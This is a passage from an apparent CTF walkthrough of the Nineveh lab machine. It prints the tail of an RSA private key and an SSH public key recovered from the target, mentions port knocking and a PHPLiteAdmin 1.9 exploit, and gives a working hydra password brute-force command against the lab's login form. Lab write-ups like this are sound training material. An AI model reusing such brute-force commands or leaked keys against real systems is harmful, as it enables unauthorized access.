 ```
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
secret/nineveh.pub
0000644
0000041
0000041
00000000620
13126060277
014541
ustar  
www-data
www-data
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
```

Taking this in account, now we have: the private SSH key and the public SSH key. Oh la la!

Let's put each one in `id_rsa` and `id_rsa.pub` respectively.

Looking at the nmap scan again there's no SSH port open, so that makes me think that we may have to knock some ports to open it. It's a security measure called [Port Knocking](../../../posts/port_cheatsheet/#22---ssh) which lets ports being closed until a user knocks other in some specific order.


Let's continue looking at other directories, on `/db`:

{{< img "phpliteadmin.png" "PHPLiteAdmin" "border" >}}

So the version of PHPLiteAdmin is `1.9`. Looking in *searchsploit* I found this [exploit](https://www.exploit-db.com/exploits/24044).

The exploit needs us to be logged in, so we'll look for it later.

#### Bruteforce HTTPS - Hydra

To login, let's bruteforce with the same technique as before:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 64 -V -o hydra_db.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."
```
